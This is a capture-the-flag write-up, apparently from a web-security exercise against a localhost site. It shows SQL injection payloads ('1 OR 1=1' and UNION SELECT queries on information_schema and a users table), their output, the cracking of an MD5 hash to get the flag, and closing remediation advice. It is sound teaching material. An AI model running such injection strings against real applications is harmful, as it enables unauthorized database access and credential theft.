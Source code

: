 When navigating to the Members page http://localhost:8080/index.php?page=member we are met with an input field.

We can try to send `1 OR 1=1` to check if we could do an SQL Injection attack, and we see that we can indeed proceed when this is returned on the page:

```
ID: 1 OR 1=1 
First name: one
Surname : me

ID: 1 OR 1=1 
First name: two
Surname : me

ID: 1 OR 1=1 
First name: three
Surname : me

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```

Now that we know that it is vulnerable let's try getting some more information about the database:

`1 UNION SELECT table_name,column_name FROM information_schema.columns WHERE table_schema=database() --`

This shows us that there are multiple columns that we can look into. Upon further research, we spot a user named `Flag` and we try to find his ID: 

`1 UNION SELECT user_id, first_name FROM users --`

We are now going to try to find some informations in the `Commentaire` and `countersign` columns: 

`1 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5 --`

This gives us another hint:

```
ID: 1 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5 -- 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Let's fllow the instructions:
 - Trying to decode `5ff9d0165b4f92b14994e5c685cdce28` we find that it's MD5 and decrypted we get `FortyTwo`
 - Lower all the chars -> `fortytwo`
 - SH256 on it -> `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

Here is our flag !

To remediate this vulnerability, the application should:
 - Use parameterized queries or prepared statements instead of directly concatenating user input into SQL queries
 - Implement input validation to reject suspicious inputs containing SQL syntax
 - Apply the principle of least privilege by using a database user with only the necessary permissions
 - Implement proper error handling that doesn't expose database details to users